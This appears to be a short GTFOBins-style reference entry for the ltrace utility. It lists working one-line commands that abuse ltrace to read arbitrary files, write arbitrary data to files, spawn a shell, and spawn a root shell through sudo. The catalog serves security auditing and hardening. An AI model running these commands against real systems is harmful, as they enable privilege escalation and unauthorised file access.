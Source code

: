 functions:
  file-read:
    - description: The file is parsed as a configuration file and its content is shown as error messages, thus this is not suitable to exfiltrate binary files.
      code: |
        LFILE=file_to_read
        ltrace -F $LFILE /dev/null
  file-write:
    - description: The data to be written appears amid the library function call log, quoted and with special characters escaped in octal notation. The string representation will be truncated, pick a value big enough. More generally, any binary that executes whatever library function call passing arbitrary data can be used in place of `ltrace -F DATA`.
      code: |
        LFILE=file_to_write
        ltrace -s 999 -o $LFILE ltrace -F DATA
  shell:
    - code: ltrace -b -L /bin/sh
  sudo:
    - code: sudo ltrace -b -L /bin/sh
---
